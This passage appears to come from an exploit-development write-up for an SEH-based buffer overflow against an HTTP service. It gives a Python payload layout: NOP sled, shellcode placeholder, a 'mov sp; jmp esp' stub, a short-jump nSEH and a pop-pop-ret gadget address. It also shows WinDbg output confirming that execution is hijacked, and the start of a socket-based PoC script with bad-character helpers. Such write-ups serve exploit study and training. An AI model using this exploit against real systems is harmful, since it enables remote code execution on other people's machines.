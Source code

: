So instead it would make more sense to just write directly to the lower half of the dword.   Something like:
```
mov sp,0xf952; jmp esp
```

The following should align, with a placeholder for shellcode
```python
    crash_len = 664-4-12
    head = "POST / HTTP/1.1\x0d\x0aContent-Type: application/x-www-form-urlencoded\x0d\x0a\x0d\x0a"
    sled1 = ("\x90" * 0x14)
    shellcode = ("\x41" * (crash_len - len(sled1)))
    nnSEH = (
        "\x66\xbc\x52\xf9"  ## mov sp, 0xf952
        "\xff\xe4"              ## jmp esp
        "\x90\x90\x90\x90\x90\x90"
    ) 
    nSEH = "\x90\x90\xeb\xf0"  ## nasm > jmp short 0xf2 / EBF0 jmp short 0xfffffff2
    SEH = "\xd8\x94\x40"  ## 0x4094d8: pop ecx ; pop ecx ; ret ; 

    buf = f"{head}{sled1}{shellcode}{nnSEH}{nSEH}{SEH}"
```

After jmp esp, Perfect.  Land right at the beginning of `sled1`
```sh
0:003> dd eip
009ef950  90909090 90909090 90909090 90909090
009ef960  90909090 41414141 41414141 41414141
009ef970  41414141 41414141 41414141 41414141
009ef980  41414141 41414141 41414141 41414141
009ef990  41414141 41414141 41414141 41414141
```


# Shellcode
The only thing left to do is generate the shellcode and complete the PoC.
```python
#!/usr/bin/env python3
import os, sys, re, socket, binascii, time
from struct import pack, unpack

badchars = "\x00\x0a"
def gen_badchars(bc, start="\x01", end="\xff"):
	s_int = ord(start)
	e_int = ord(end)+1
	BC = bytearray(range(s_int,e_int)).decode('latin-1')
	for item in bc:
		BC = BC.replace(item,'')
	return BC

def cx(ip, port, recv=0):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    if recv > 0:
        resp = sock.recv(4096)
        print(resp)
    return sock

def sender(sock, buf, send=0, recv=0):
    if send > 0:
        sock.send(buf.encode('latin-1'))
    if recv > 0:
        resp = sock.recv(4096)
        return resp

```